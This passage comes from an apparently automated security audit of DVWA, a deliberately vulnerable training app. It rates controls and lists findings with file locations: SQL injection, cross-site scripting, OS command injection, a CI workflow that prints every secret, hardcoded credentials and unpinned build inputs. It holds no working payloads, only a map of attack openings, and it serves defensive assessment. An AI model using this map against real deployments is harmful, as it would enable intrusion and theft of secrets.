- 🟡 [F-073](#f-073) — Profile authorization trusts client-controlled user_id cookie
- 🟡 [F-075](#f-075) — Admin check on user update enforced only
- 🟡 [F-076](#f-076) — Mass assignment of privileged user level
- 🟡 [F-097](#f-097) — Unauthenticated or low-privilege caller uses user-management

### 6.5 Query Construction and Data Access Controls

<a id="ctrl-query-construction-and-data-access-controls"></a>

**Verdict:** 🟠 Weak - string-built SQL with escaping instead of parameter binding leaves nine injection findings.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 SQL query construction in login](#651-sql-query-construction-in-login)

**Implemented controls:** SQL query construction in login.

**Assessment:** Queries are built by string concatenation with `mysqli_real_escape_string`, not prepared statements. Nine SQL injection findings span the modules: 🟠 [F-012](#f-012) — SQL injection in user details update endpoint, 🟠 [F-013](#f-013) — SQL injection, 🟠 [F-014](#f-014) — SQL injection in brute-force login query, 🟠 [F-015](#f-015) — SQL injection, 🟠 [F-016](#f-016) — SQL injection, 🟠 [F-017](#f-017) — SQL injection in unquoted numeric context despite escaping, 🟠 [F-018](#f-018) — Blind SQL injection, 🟠 [F-019](#f-019) — Blind SQL injection, and 🟠 [F-020](#f-020) — Blind SQL injection in unquoted context despite escaping. Two of them occur in unquoted numeric contexts, where escaping offers no protection.

**Findings in this category without a control:**

- 🟠 [F-012](#f-012) — SQL injection in user details update endpoint
- 🟠 [F-013](#f-013) — SQL injection
- 🟠 [F-014](#f-014) — SQL injection in brute-force login query
- 🟠 [F-015](#f-015) — SQL injection
- 🟠 [F-016](#f-016) — SQL injection
- 🟠 [F-017](#f-017) — SQL injection in unquoted numeric context despite escaping
- 🟠 [F-018](#f-018) — Blind SQL injection
- 🟠 [F-019](#f-019) — Blind SQL injection
- 🟠 [F-020](#f-020) — Blind SQL injection in unquoted context despite escaping

<a id="sql-query-construction-in-login"></a>
#### 6.5.1 SQL query construction in login

**Status:** 🟡 Partial - escaping mitigates common injection but is weaker than parameterization.

The login query escapes username and password with `mysqli_real_escape_string` and then concatenates them into the SQL string. Prepared statements are not used.

The diagram shows the intended query construction path on login:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Username and password are escaped with mysqli_real_escape_string before string-concatenated SQL; no prepared statements. Escaping mitigates common injection but is weaker than parameterization. -->
Escaping alone leaves the query structure in the caller's reach:

- Escaping does not stop injection in unquoted numeric contexts (🟠 [F-017](#f-017), 🟠 [F-020](#f-020)).
- The brute-force login query is injectable (🟠 [F-014](#f-014)).
- The same string-building pattern recurs across modules (🟠 [F-012](#f-012), 🟠 [F-013](#f-013), 🟠 [F-015](#f-015), 🟠 [F-016](#f-016), 🟠 [F-018](#f-018), 🟠 [F-019](#f-019)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.6 Input Boundary Validation Controls

<a id="ctrl-input-boundary-validation-controls"></a>

**Verdict:** 🟡 Partial - route and ID parsing holds in the front controller, while per-module validation shows bypassable filters.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#661-validation-approach)
- [6.6.2 Route and ID parsing in front controller](#662-route-and-id-parsing-in-front-controller)

**Implemented controls:** Route and ID parsing in front controller.

**Assessment:** Validation is applied in the API front controller and per module. Route versions are regex-matched and IDs cast to integers. Module-level filters are bypassable, for example on file inclusion (🟠 [F-021](#f-021), 🟠 [F-022](#f-022)), uploads (🟠 [F-034](#f-034)), and redirects (🟡 [F-044](#f-044)); these findings are routed in other sections.

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🟡 Partial - front-controller parsing works, but module-level filters are defeated by simple bypasses.

Validation in this codebase is handled per module, with the API front controller parsing routes and IDs. No shared validation layer is evidenced.

**Security assessment**

Filter-style validation is the pattern, and several filters fail:

- File inclusion filters accept a wildcard filename or a non-recursive traversal strip (🟠 [F-021](#f-021), 🟠 [F-022](#f-022)).
- Upload checks trust a client-supplied MIME type (🟠 [F-034](#f-034)).
- Redirect checks use substring matching (🟡 [F-042](#f-042), 🟡 [F-044](#f-044)).

**Relevant findings**

- None.

<a id="route-and-id-parsing-in-front-controller"></a>
#### 6.6.2 Route and ID parsing in front controller

**Status:** 🟡 Partial - the version regex is unanchored, and no authentication runs before dispatch.

<!-- Model implementation note (facts for the intro): public/index.php routing switch -->
`public/index.php` matches the API version by regex, casts IDs to integers, and returns 404 for unknown routes in a routing switch.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Version is matched by regex and IDs are cast to integers, with a 404 for unknown routes. The version regex is unanchored. The front controller does no authentication or authorization before dispatch. Controller-level checks were not inspected. -->
Parsing is basic and does no access checking:

- The version regex is unanchored.
- The front controller applies no authentication or authorization before dispatch (see 🟡 [F-097](#f-097)).
- Controller-level checks were not inspected.

**Relevant findings**

- None.

### 6.7 Output Encoding and Rendering Controls


**Systemic weaknesses:** [W-003](#w-003)
**Verdict:** 🟠 Weak - twelve cross-site scripting findings show output is written to pages without consistent encoding.

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 Output Encoding and Client-Side Rendering](#671-output-encoding-and-client-side-rendering)

**Implemented controls:** A nonce-based `Content-Security-Policy` in the CSP module (weakened by a static nonce).

**Assessment:** Output encoding is applied inconsistently. Reflected XSS appears in 🟠 [F-010](#f-010) — Reflected cross-site scripting, 🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript, 🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message, 🟡 [F-058](#f-058) — Reflected script injection, 🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline, 🟡 [F-061](#f-061) — Reflected XSS, stored XSS in 🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding, 🟡 [F-054](#f-054) — Stored XSS in authbypass user table, 🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table, DOM XSS in 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written, plus 🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level and 🟡 [F-060](#f-060) — Cross-site scripting. The missing practice is contextual encoding at every sink.

**Findings in this category without a control:**

- 🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table
- 🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message
- 🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level
- 🟡 [F-058](#f-058) — Reflected script injection
- 🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline
- 🟡 [F-060](#f-060) — Cross-site scripting
- 🟡 [F-061](#f-061) — Reflected XSS

<a id="output-encoding-and-client-side-rendering"></a>
#### 6.7.1 Output Encoding and Client-Side Rendering

**Status:** 🟠 Weak - most rendering paths write request-derived or stored values into pages without encoding.

Output encoding keeps user-supplied text from running as script in a visitor's browser. Pages that echo request parameters, stored guestbook entries, and logged headers apply it on some paths and skip it on others.

**Security assessment**

Request-derived values reach the browser unescaped across modules. `low.php:8` reflects input directly (🟠 [F-010](#f-010)), `index.php:53` writes a URL default parameter into the DOM (🟠 [F-009](#f-009)), and `low.php:16` stores guestbook content without HTML encoding (🟠 [F-011](#f-011)). Even the CSP level is weakened by a static nonce plus `unsafe-inline` at `medium.php:16` (🟡 [F-059](#f-059)), so the policy does not rescue the missing encoding.

**Relevant findings**

- 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written
- 🟠 [F-010](#f-010) — Reflected cross-site scripting
- 🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding
- 🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript
- 🟡 [F-054](#f-054) — Stored XSS in authbypass user table

### 6.8 Browser and Cross-Origin Controls

**Verdict:** 🟠 Weak - the CORS policy allows any origin, and CSRF protection is missing on state-changing actions.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 CORS policy on API front controller](#681-cors-policy-on-api-front-controller)

**Implemented controls:** CORS policy on API front controller.

**Assessment:** Browser-side controls are thin. The API sets a wildcard CORS origin on every route, state-changing actions lack anti-CSRF tokens (🟠 [F-001](#f-001)), and the Referer check at medium level is bypassable (🟠 [F-023](#f-023)).

**Findings in this category without a control:**

- 🟠 [F-001](#f-001) — Missing Anti-CSRF Tokens on State-Changing Actions
- 🟠 [F-023](#f-023) — CSRF Referer check bypass

<a id="cors-policy-on-api-front-controller"></a>
#### 6.8.1 CORS policy on API front controller

**Status:** 🟠 Weak - the wildcard origin lets any site call the API cross-origin.

<!-- Model implementation note (facts for the intro): header() calls in public/index.php -->
`header()` calls in `public/index.php` set the CORS response headers for all API routes and allow the `Authorization` header.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Access-Control-Allow-Origin is set to * for all API routes, and Authorization is an allowed header. Any origin may call the API cross-origin. Because the API appears to use bearer tokens rather than cookies, the impact is reduced, but the policy gives no origin restriction. -->
The policy restricts nothing, with impact limited by token-based auth:

- `Access-Control-Allow-Origin` is `*` for every API route.
- The API appears to use bearer tokens rather than cookies, which reduces the impact.
- State-changing actions lack anti-CSRF tokens (🟠 [F-001](#f-001)) or rely on a bypassable Referer check (🟠 [F-023](#f-023)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-004](#w-004), [W-005](#w-005)
**Verdict:** 🟠 Weak - secrets and keys are hardcoded in source and configuration, and password hashing is unsalted.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Database credential management](#691-database-credential-management)
- [6.9.2 Default database credentials in configuration](#692-default-database-credentials-in-configuration)

**Implemented controls:** Database credential management, Default database credentials in configuration.

**Assessment:** Secrets live in source and config instead of a secret store. Database credentials are hardcoded (🟠 [F-031](#f-031), 🟡 [F-037](#f-037)), the OAuth client secret is in code (🟡 [F-047](#f-047)), and the token key is fixed (🟡 [F-039](#f-039), 🟡 [F-064](#f-064)). Weak ciphers appear in 🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin and 🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key, and seeded passwords in 🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted. Page-access tokens are also hardcoded (🟡 [F-074](#f-074)).

**Findings in this category without a control:**

- 🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin
- 🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted
- 🟠 [F-031](#f-031) — Hardcoded database credentials in test script
- 🟡 [F-037](#f-037) — Hardcoded weak MariaDB root and application credentials
- 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery
- 🟡 [F-047](#f-047) — Hardcoded OAuth client secret and user password
- 🟡 [F-064](#f-064) — Hardcoded and undersized AES-256-GCM token key
- 🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key
- 🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token

<a id="database-credential-management"></a>
#### 6.9.1 Database credential management

**Status:** 🟠 Weak - root password `dvwa` and a short application password sit in plaintext environment variables.

`compose.yml` passes the MariaDB root and application passwords to the `db` service as environment variables.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): MariaDB root and application passwords are hardcoded in plaintext in compose.yml environment variables (root password 'dvwa', app user password a short 8-char literal). Root password is trivially guessable. No secrets mechanism is used. This is consistent with DVWA being an intentionally vulnerable training app, but the credentials are weak if deployed beyond local use. -->
Credentials are literals in the compose file, and no secret store is used:

- The root password is trivially guessable and the application password is an 8-character literal (🟡 [F-037](#f-037)).
- The same static credentials are flagged at the pipeline level (🟠 [F-028](#f-028)).
- This suits local training use and is weak anywhere else.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="default-database-credentials-in-configuration"></a>
#### 6.9.2 Default database credentials in configuration

**Status:** 🟠 Weak - environment variables can override, but a hardcoded default password applies when they are unset.

Configuration reads the database credentials from environment variables and falls back to a hardcoded default password when they are unset.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Environment variables override, but a hardcoded default DB password falls back when unset. Database transport protection is not evidenced. -->
The fallback makes the default the effective credential:

- A hardcoded default database password is used when no override is set.
- A test script also embeds database credentials (🟠 [F-031](#f-031)).
- Transport protection for the database connection is not evidenced.

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.10 File Parser and Outbound Request Controls

<a id="ctrl-file-parser-and-outbound-request-controls"></a>


**Systemic weaknesses:** [W-001](#w-001), [W-002](#w-002), [W-011](#w-011), [W-012](#w-012)
**Verdict:** 🟠 Weak - the one outbound check is sound, but command execution, path traversal, and redirect flaws are open.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 reCAPTCHA server-side verification](#6101-recaptcha-server-side-verification)

**Implemented controls:** `reCAPTCHA` server-side verification.

**Assessment:** Only the `reCAPTCHA` call is catalogued, and it uses a fixed URL. The surrounding file and outbound paths are exposed: OS command injection in connectivity checks (🔴 [F-005](#f-005)), path traversal in the source and help viewers (🟠 [F-029](#f-029), 🟡 [F-063](#f-063)), file-content evaluation (🟡 [F-072](#f-072)), and three open redirects (🟡 [F-042](#f-042), 🟡 [F-043](#f-043), 🟡 [F-044](#f-044)).

**Findings in this category without a control:**

- 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks
- 🟠 [F-029](#f-029) — Path traversal in source viewer reads
- 🟡 [F-042](#f-042) — Open redirect with substring-only target check
- 🟡 [F-043](#f-043) — Unvalidated open redirect from redirect parameter
- 🟡 [F-044](#f-044) — Open redirect filter bypass
- 🟡 [F-063](#f-063) — Path traversal in help viewer id and locale
- 🟡 [F-072](#f-072) — Eval of file contents at user-controlled help

<a id="recaptcha-server-side-verification"></a>
#### 6.10.1 reCAPTCHA server-side verification

**Status:** 🟡 Partial - the fixed HTTPS Google URL rules out user-controlled SSRF, but failure handling was not verified.

`reCAPTCHA` verification posts the response to a fixed HTTPS Google URL and returns null when verification fails.

The diagram shows the intended server-side `reCAPTCHA` verification:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Verification uses a fixed HTTPS Google URL, so there is no user-controlled SSRF. Failure handling returns null and the caller's handling was not inspected. -->
The outbound call is safe, but the gate around it is not:

- The caller's handling of a null failure result was not inspected.
- The CAPTCHA outcome is trusted from a client-supplied form field at one level (🟡 [F-045](#f-045)).
- Posting step 2 directly skips the CAPTCHA (🟡 [F-048](#f-048)), and a leftover bypass value skips it at another level (🟡 [F-041](#f-041)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.11 Operations Runtime and Supply Chain Controls

**Build path.** [Figure 1b](#figure-1b) shows the inputs, build systems and release artifacts that the repository evidences.

Highlighted path of 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA: GitHub Actions → GitHub Actions → Container image. The path stops where the evidence ends.

**Attack entries:**

- **Manipulated CI input**
  - 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA
  - 🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning

**Not attributable to a build step:**

- 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file
- 🟡 [F-069](#f-069) — Container Runs as Root


**Systemic weaknesses:** [W-013](#w-013)
**Verdict:** 🔴 Unsafe - the CI workflow prints every repository secret, and pinning and permission gaps weaken the pipeline.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Database network exposure isolation](#6111-database-network-exposure-isolation)
- [6.11.2 Image pinning and version control](#6112-image-pinning-and-version-control)
- [6.11.3 CI secret handling in workflows](#6113-ci-secret-handling-in-workflows)
- [6.11.4 Dependency and action pinning](#6114-dependency-and-action-pinning)
- [6.11.5 Workflow token privilege and registry publishing](#6115-workflow-token-privilege-and-registry-publishing)
- [6.11.6 Static analysis and automated testing in CI](#6116-static-analysis-and-automated-testing-in-ci)
- [6.11.7 Verbose database error disclosure and destructive setup](#6117-verbose-database-error-disclosure-and-destructive-setup)
- [6.11.8 Build pipeline and dependency controls](#6118-build-pipeline-and-dependency-controls)

**Implemented controls:** Database network exposure isolation, Image pinning and version control, CI secret handling in workflows, Dependency and action pinning, Workflow token privilege and registry publishing.

**Assessment:** Operational controls are mixed. The database is isolated on a private network and CI runs CodeQL and tests, but a workflow prints all secrets (🟠 [F-027](#f-027)), actions and images float on mutable tags (🟡 [F-051](#f-051), 🟡 [F-052](#f-052)), workflows omit permissions (🟡 [F-070](#f-070), 🟡 [F-071](#f-071)), and the container runs as root (🟡 [F-069](#f-069)). Hardcoded compose credentials are tracked in 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file.

**Findings in this category without a control:**

- 🟠 [F-027](#f-027) — All repository secrets base64-encoded into public workflow
- 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file
- 🟡 [F-069](#f-069) — Container Runs as Root
- 🟡 [F-070](#f-070) — Workflows omit explicit permissions and inherit default
- 🟡 [F-071](#f-071) — Missing Workflow Permissions Block

<a id="database-network-exposure-isolation"></a>
#### 6.11.1 Database network exposure isolation

**Status:** 🟢 Adequate - the database publishes no host ports and sits on a private network.

The `db` service in `compose.yml` attaches only to the private `dvwa` network and publishes no host ports, so only the `dvwa` container can reach it.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The db service publishes no host ports and attaches only to the private dvwa compose network, so it is reachable only by the dvwa container. Transport encryption between the app and database is not configured in this file (unknown). -->
Network exposure is contained, with one unknown:

- Transport encryption between the application and database is not configured in this file, so it is unverified.
- The reachable-by-peer database still carries weak credentials (🟡 [F-037](#f-037)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="image-pinning-and-version-control"></a>
#### 6.11.2 Image pinning and version control

**Status:** 🟡 Partial - the image is pinned to a major tag, not an immutable digest.

`compose.yml` pulls the database image from `docker.io` pinned to the `mariadb` major tag 10.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Image is pinned to the mariadb major tag 10 from docker.io library, not to a digest, so minor updates are picked up but content is not immutably verified. -->
A tag lets content change without notice:

- Minor updates are picked up, but content is not verified against a digest.
- Application images use floating tags and a `latest` pull policy (🟡 [F-052](#f-052)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="ci-secret-handling-in-workflows"></a>
#### 6.11.3 CI secret handling in workflows

**Status:** 🔴 Unsafe - the workflow exports all secrets and prints them base64-encoded, defeating log masking.

`vulnerable.yml` runs on every push to master and builds a JSON document of all repository secrets with `toJSON(secrets)`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The vulnerable.yml workflow exports all secrets via toJSON(secrets) and echoes them base64-encoded, defeating GitHub log masking and exposing every repository secret on push to master. It appears to be a deliberate demonstration, but the mechanism is unsafe as written. -->
The workflow looks like a deliberate demonstration but is unsafe as written:

- Every repository secret is echoed base64-encoded into the job log (🟠 [F-027](#f-027)).
- Base64 does not mask anything, so anyone who can read the log recovers the secrets.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="dependency-and-action-pinning"></a>
#### 6.11.4 Dependency and action pinning

**Status:** 🟠 Weak - actions use mutable version tags and base images float, so builds are not reproducible.

Workflows reference actions by version tags such as `@v3`. The `Dockerfile` builds from `php:8-apache` and `composer:latest` without digests.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Actions are pinned to version tags (e.g. @v3, @v6.0.2), not commit SHAs. The Dockerfile uses the floating composer:latest and php:8-apache base images without digests, so builds are not reproducible and are exposed to upstream tampering. -->
Upstream changes reach builds unreviewed:

- Third-party actions are pinned to tags, not commit SHAs (🟡 [F-051](#f-051)).
- Base images use floating tags without digests (🟡 [F-052](#f-052)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="workflow-token-privilege-and-registry-publishing"></a>
#### 6.11.5 Workflow token privilege and registry publishing

**Status:** 🟡 Partial - the registry login uses the ephemeral token, but no workflow sets explicit permissions.

`docker-image.yml` logs in to the registry with the ephemeral `GITHUB_TOKEN` and publishes on master pushes or manual dispatch.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The registry login uses the ephemeral GITHUB_TOKEN rather than a stored credential, and publishing is limited to master pushes or manual dispatch. No explicit permissions block is set in the inspected workflows. The github.ref expression is interpolated directly into the shell script, which is a script-injection pattern; here it is limited to the master branch or tag refs. -->
Token scope is inherited, not declared:

- Workflows omit an explicit `permissions` block and inherit defaults (🟡 [F-070](#f-070), 🟡 [F-071](#f-071)).
- The `github.ref` expression is interpolated into a shell script, a script-injection pattern limited here to master or tag refs.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="static-analysis-and-automated-testing-in-ci"></a>
#### 6.11.6 Static analysis and automated testing in CI

**Status:** 🟢 Adequate - CodeQL and pytest run on every trigger, but CodeQL skips the main language, PHP.

`codeql-analysis.yml` runs CodeQL on push, pull request, and a weekly schedule, and `pytest.yml` runs tests on the same triggers.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): CodeQL runs on push, pull request and a weekly schedule, and pytest runs on the same triggers. CodeQL covers javascript and python only, not PHP, which is the main application language, so coverage is limited. -->
Automated checks run, with a coverage hole:

- CodeQL covers JavaScript and Python only, not PHP, so most application code is unscanned.
- No finding is linked to this control.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="verbose-database-error-disclosure-and-destructive-setup"></a>
#### 6.11.7 Verbose database error disclosure and destructive setup

**Status:** 🟠 Weak - database errors reach the client and setup is destructive, so the control leaks detail and resets data.

The login code echoes MySQL error text to the client, and the setup routine drops and recreates the database.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): MySQL errors are echoed to the client on login; setup drops and recreates the database. Setup authorization was not inspected here. -->
Two behaviors work against operations safety:

- Database errors on login are shown to the client, which exposes query details.
- Setup drops and recreates the database, and the reset is reachable without authentication (🟠 [F-036](#f-036)).
- A configuration backup is copied alongside web content (🟡 [F-068](#f-068)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="build-pipeline-and-dependency-controls"></a>
#### 6.11.8 Build pipeline and dependency controls

**Status:** 🔴 Missing - gaps in CI install integrity, Action pinning, Base image pinning

<!-- Model implementation note (facts for the intro): In place: Lockfile hygiene, Base image pinning, Install scripts, Static analysis (SAST) -->
Build files give the pipeline its shape: `composer.lock` pins API dependencies, the `Dockerfile` builds the image, and GitHub workflows run CodeQL and tests.

- **Automated SCA scanning** — Not evidenced in the repository; it may run outside it (GitHub App, default setup, organization policy, agent).
- **Automated dependency updates** — Not evidenced in the repository; it may run outside it (GitHub App, default setup, organization policy, agent).
- **Lockfile hygiene** — 🟢 Adequate. Lockfile hygiene present: `vulnerabilities/api/composer.lock:1`.
- **CI install integrity** — 🔴 Missing. CI installs dependencies by resolving versions at install time: `.github/workflows/pytest.yml:26`.
- **Action pinning** — 🔴 Missing. CI action and image references use mutable tags or branches: `.github/workflows/codeql-analysis.yml:37`, `.github/workflows/codeql-analysis.yml:45`, `.github/workflows/codeql-analysis.yml:56`. → 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA
- **Base image pinning** — 🟡 Partial. Some base images use a version tag instead of a digest: `Dockerfile:1`. → 🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning
- **Install scripts** — 🟢 Adequate. No install-time hook runs unreviewed code.
- **Static analysis (SAST)** — 🟢 Adequate. Static analysis runs in CI: `.github/workflows/codeql-analysis.yml:70`.

**Security assessment**

Gaps: CI install integrity (Missing), Action pinning (Missing), Base image pinning (Partial). Not evidenced in the repository: Automated SCA scanning, Automated dependency updates.

**Relevant findings**

- 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA
- 🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning

### 6.12 Real-time and Not Applicable Controls

<!-- §6.12 LOCKED — mechanically derived: no routed finding and no real-time, LLM, GraphQL, or gRPC component in the model. Renderer must not rewrite the line below. -->
_Not applicable - no finding routed to this category, and the architecture model contains no real-time / WebSocket, AI/LLM, GraphQL, or gRPC component. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§6](#6-security-architecture) sections._

### 6.13 Defense-in-Depth Summary

<!-- §6.13 FORMAT — NEVER a table, at most 120 words, no file:line. Two short bullet lists: **What holds** (the individual positive controls that exist, strongest first, e.g. distroless runtime image, RS256 algorithm choice) and **Repair first** (the control-boundary repairs that would restore layered defense, each with its mitigation link [M-NNN](#m-nnn)). Do NOT emit a Markdown table — `| header |` lines under §6.13 are a contract violation. -->

**What holds**

- Database on a private compose network with no host ports.
- Anti-CSRF token on the login form.
- CodeQL and pytest on every push, plus a committed `composer.lock`.

**Repair first**

- Replace string-built SQL with parameter binding (🟠 [F-014](#f-014)).
- Remove hardcoded keys and secrets (🟡 [F-039](#f-039), 🟡 [F-047](#f-047)).
- Stop printing secrets in CI (🟠 [F-027](#f-027)).
- Replace unsalted `MD5` (🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy (Passwords hashed with unsalted `MD5` and no strength policy)).
- Add a central server-side authorization check (🟡 [F-097](#f-097)).

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🔴 **Critical** · [W-001](#w-001) - Application data builds operating-system commands · confirmed · 1 finding · 2 components
- 🟠 **High** · [W-002](#w-002) - Input handling lacks enforced boundary validation · confirmed · 2 findings · 1 component
- 🟠 **High** · [W-003](#w-003) - Frontend rendering lacks enforced output encoding · confirmed · 12 findings · 2 components
- 🟠 **High** · [W-004](#w-004) - Secrets are committed to source instead of a managed store · confirmed · 8 findings · 4 components
- 🟠 **High** · [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives · confirmed · 6 findings · 2 components
- 🟡 **Medium** · [W-006](#w-006) - Application data crosses into executable code · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-007](#w-007) - Privileged attributes lack an enforced write allowlist · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-008](#w-008) - Full PHP info page exposed to any authenticated user (`phpinfo.php:8`) · observed-practice · 0 findings · 1 component
- 🟡 **Medium** · [W-009](#w-009) - All repository secrets base64-encoded into public workflow logs · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-010](#w-010) - Login forms send passwords in GET query strings (`low.php:8`) · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-011](#w-011) - Unrestricted file upload into web-served directory keeps client name and extensi · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-012](#w-012) - Upload filter trusts client-supplied MIME type (`medium.php:14`) · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-013](#w-013) - Build pipeline trusts mutable third-party references · design-risk · 2 findings · 1 component

<a id="w-001"></a>
### W-001 — Application data builds operating-system commands

🔴 **Critical** · implementation weakness · confirmed · 1 finding

A command line is assembled from application values and handed to a shell. Shell syntax in those values runs as further commands with the privileges of the service.

**Confirmed findings:**

- 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks

**Practice sites:**

- `.github/workflows/docker-image.yml:33`

**Affected components:** [C-02](#c-02), [C-03](#c-03)

**Remediation:**

